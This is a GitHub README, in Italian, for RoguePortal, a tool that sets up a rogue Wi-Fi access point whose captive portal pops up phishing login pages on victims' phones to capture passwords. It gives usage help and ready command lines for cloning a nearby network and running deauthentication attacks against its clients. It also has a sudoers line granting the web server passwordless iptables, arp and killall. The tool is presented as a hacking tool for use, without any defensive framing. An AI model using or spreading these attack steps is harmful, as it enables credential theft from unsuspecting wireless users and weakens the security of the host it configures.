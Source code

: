 # RoguePortal :smiling_imp:

```
 _________.                            ___.                                       
 \______   \ ____   ____  __ __   ____/  _ \___________._.______.______.___       
  |       _//  _ \ / ___\|  |  \./ __ \ <_> \   . \ <_> )\__  ___\  <_> \  \      
  |    |   (  <_> ) /_/  >  |  /\  ___/\   / \ <_> \   _/_  \  \  \   _  \  \__.  
  |____|_  /\____/\___  /|____/  \___  >\  \  \_____\  \  \  \__\  \___\___\_____> 
         \/      /_____/             \/  \__\        \_/\_/
```    
**A Phishing Rogue Captive Portal! New concept for hacking:** *"Simply and fast for the lazy"*

# Descrizione

RoguePortal sfrutta i captive portal per estorcere informazioni sensibili.
Perchè usare proprio il Captive Portal? Il captive portal è molto utile sui dispositivi mobili
come ad esempio i cellulari. Oggi tutti hanno un telefono e principalmente lo utilizziamo per messaggiare con le varie
app di messaggistica instantanea: facebook, whatsapp, telegram, twitter, ecc... i "tempi del browser" su i cellulari stanno per finire ;).
Per questo motivo, l'approccio adottato da altri tool di phishing, come ad esempio "wifiphisher", presuppone che l'utente debba andare almeno su un motore di ricerca per essere reindirizzato sulla pagina malevola. RoguePortal, invece, sfrutta il CaptivePortal in modo da, non appena il client si collegherà al nostro AP malevolo, fargli aprire in automatico sul suo dispositivo la nostra pagina di login malevola, senza che la persona debba necessariamente andare su un browser!. Questo suo punto di forza aumenta ancor di più la probabilità di successo del nostro attacco. L'unica pecca di questo attacco(per il momento) è che necessita di una connessione ad internet, dato che servirà al dispositivo per capire che la rete richiede una forma di autenticazione. Vi invito a fare una ricerca su internet per comprendere al meglio cos'è questo Captive Portal e soprattutto come funziona.

# Dipendenze

- apache2
- hostapd
- dnsmasq
- php
- macchanger
- aircrack-ng
- iwlist
- wireless-tools
- rfkill
- nohup
- psmisc (for tool killall)
- sudo

# Configurazione

Prima di continuare, assicuratevi di abilitare apache2 all'utilizzo di alcuni comandi.
Inserite nel file */etc/sudoers* la seguente riga:
```
www-data ALL=(ALL:ALL) NOPASSWD: /sbin/iptables, /usr/sbin/arp, /usr/bin/killall
```
A volte i percorsi dei vari binari possono variare da distro a distro. In ogni modo, è sempre una buona idea controllare, per evitare problemi in futuro.
Per controllare i percorsi dei vari binari (*iptables, killall, arp*), utilizzare l'utility **whereis**:

```
whereis -b iptables
whereis -b arp
whereis -b killall
```

Se l'utility riporta dei percorsi diversi, cambiateli con quelli ottenuti dal comando.

# Esecuzione

![Demo](pics/demo.png)

**RoguePortal** accetta 3 interfacce di rete; in realtà necessita di almeno 2 interfacce.. la terza è opzionale.
In sostanza:

- 1° interfaccia: Va collegata ad internet
- 2° interfaccia: Verrà utilizzata per creare gli AP malevoli
- **3° interfaccia**: Verrà usata per il deauth, cioà la deautenticazione dei client collegati ad un AP

Digitate *./rogueportal.sh -h* per avere una lista più completa delle opzioni disponibili:

```
$ sudo ./rogueportal -h

 _________.                            ___.                                       
 \______   \ ____   ____  __ __   ____/  _ \___________._.______.______.___       
  |       _//  _ \ / ___\|  |  \./ __ \ <_> \   . \ <_> )\__  ___\  <_> \  \      
  |    |   (  <_> ) /_/  >  |  /\  ___/\   / \ <_> \   _/_  \  \  \   _  \  \__.  
  |____|_  /\____/\___  /|____/  \___  >\  \  \_____\  \  \  \__\  \___\___\_____> 
         \/      /_____/             \/  \__\        \_/\_/
                 
                  * A Phishing WIFI Rogue Captive Portal! Enjoy! *
                                 
 Usage: wifi.sh -w [wireless-device] -e [AP network name/target] -f [Page Phishing]
                                 
 -w		Interfaccia Wireless
 -e		ESSID della rete
 -f		Numero pagina di phishing. Accetta solo valore numerico
 
 [ OPTIONAL ]
 
 -l		Lista delle pagine di phishing disponibili
 -c		Canale della rete
 -m		Mac address da utilizzare
 -C		Clona l'ap con l'essid impostato nelle vicinanze
 -p		Mantiene la connessione dopo aver catturato le password. Di default lo script
		si chiude automaticamente
 -a		Attacca la rete scollegando i client dell'AP legittimo per farli collegare all'AP Rogue.
                Come argomento, necessita di una seconda scheda di rete per il deauth
```

Alcuni esempi:

```
./rogueportal.sh -w wlan0 -e RogueAP -f0     Crea un ap chiamato RogueAP utilizzando l'interfaccia wlan0 come AP e la pagina di phishing '0'.
./rogueportal.sh -w wlan0 -C RogueAP -f0     Clona l'ap nelle vicinanze chiamato RogueAP. wlan0 sarà usata come interffaccia AP.
./rogueportal.sh -w wlan0 -C RogueAP -a wlan1 -f0     Clona l'ap RogueAP e lancia l'attacco di 'deauth' contro quest'ultima. I client si connetteranno all'AP rogue creato da noi.
./rogueportal.sh -w wlan0 -e RogueAP -m 11:22:33:44:55:66 -f0    Crea un ap chiamato RogueAP avente come mac address '11:22:33:44:55:66'.
```

# In futuro

RoguePortal è in costante aggiornamento. Cercherò di migliorare e implementare nuove funzioni appena possibile.
Lavorerò ad un modo per poter utilizzare un Captive Portal anche in modalità offline, quindi senza la necessità di utilizzare una connesione internet.

# Donazioni

**BTC:** *3EwV4zt9r5o4aTHyqjcM6CfqSVirSEmN6y*

# Contatti

**Email:** *developer.vincenzog@gmail.com*
